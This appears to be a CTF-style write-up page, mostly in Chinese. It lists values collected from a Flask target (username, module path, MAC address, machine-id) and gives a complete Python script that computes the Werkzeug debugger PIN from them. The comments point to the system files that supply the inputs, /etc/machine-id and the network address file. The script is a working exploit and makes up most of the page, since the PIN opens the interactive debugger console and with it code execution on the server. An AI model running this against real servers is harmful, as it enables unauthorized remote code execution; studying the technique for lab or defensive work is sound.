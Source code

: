  **username：pincalculate**

**modname：flask.app** 

**appname：Flask** 

**app.py绝对路径：/usr/local/lib/python3.11/site-packages/flask/app.py**

**uuidnode mac：2485378351106 #**

**machine_id 机器码：acff8a1c-6825-4b9b-b8e1-8983ce1a8b94**

使用python脚本对ping值进行计算

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'pincalculate',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.11/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378351106',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'acff8a1c-6825-4b9b-b8e1-8983ce1a8b94'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)

```
